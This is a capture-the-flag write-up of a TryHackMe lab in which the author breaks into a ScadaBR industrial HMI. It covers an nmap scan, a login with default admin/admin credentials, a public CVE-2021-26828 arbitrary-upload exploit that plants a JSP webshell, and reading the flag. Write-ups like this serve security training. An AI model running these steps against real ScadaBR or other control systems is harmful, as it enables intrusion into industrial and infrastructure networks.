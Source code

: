 ```yaml
---
layout: default
title: "THM: Brr v1 (Industrial Intrusion CTF 2025)"
date: 2025-07-06
tags: [ctf, tryhackme, scadabr, rce, windows, web, writeup]
---
```

# THM: Brr v1 (Industrial Intrusion CTF 2025)

"A forgotten HMI node deep in Virelia’s wastewater control loop 
still runs an *outdated instance*, 
forked from an old Mango M2M stack."

From the task description, we can start thinking about exploiting
an already discovered vuln within old infrastructure.

## 1. Initial Enumeration
Let's start our enumeration:

```bash
$ nmap 10.10.136.240 -T5    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-27 14:16 MDT
Warning: 10.10.136.240 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.136.240
Host is up (0.12s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5901/tcp open  vnc-1
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
```

Since the current category is Web, let's access port 80 and 8080 on our broswer.

> Port 80: *Error response*
> 
Error code: 405 <br>  
Message: Method Not Allowed. <br>  
Error code explanation: 405 - Specified method is invalid for this resource. <br>  

> Port 8080: *Successful interaction: redirection to /ScadaBR* <br>  
Welcome to ScadaBR CTF <br>   
Redirecting you to /ScadaBR... <br>  

We are presented with a login screen.

Let's try some default credentials: <br>  
`admin / admin`

Success! 

## 2. Exploitation
Let's try to find a public exploit online to gain access to the server hosting ScadaBR.

Looking up "scadabr exploit" on Google returns a working PoC exploit with a reverse shell: <br>  
https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE <br>  

This is quite convenient, since it's an all-in-one package. Additionally, I noticed the TTL during pinging was ~64, so our machine is probably a Windows host. <br>  
Let's use WinScada_RCE.py ...

The Python script is written in Python2, but I modified the script to be able to run it with Python3. <br>  
```python
└─$ python3 WinScada_RCE.py 10.10.136.240 8080 admin admin 
```

## 3. Execution
```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|    _________                  .___     ____________________       |
|   /   _____/ ____ _____     __| _/____ \______   \______   \      |
|   \_____  \_/ ___\__  \   / __ |\__  \ |    |  _/|       _/       |
|   /        \  \___ / __ \_/ /_/ | / __ \|    |   \|    |   \      |
|  /_______  /\___  >____  /\____ |(____  /______  /|____|_  /      |
|          \/     \/     \/      \/     \/       \/        \/       |
|                                                                   |
|    > ScadaBR 1.0 ~ 1.1 CE Arbitrary File Upload (CVE-2021-26828)  |
|    > Exploit Author : Fellipe Oliveira                            |
|    > Exploit for Windows Systems                                  |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

[+] Trying to authenticate http://10.10.136.240:8080/ScadaBR/login.htm...
[+] Successfully authenticated! :D~

[>] Attempting to upload .jsp Webshell...
[>] Verifying shell upload...

[+] Upload Successfuly!
[+] Webshell Found in: http://10.10.136.240:8080/ScadaBR/uploads/1.jsp
[>] Spawning fake shell...
```

We have a reverse shell!

```cmd
# dir

Command: dir
bin  common  conf  logs  root.txt  server  shared  webapps  work

# cat root.txt
Command: cat root.txt
THM{flag}
```
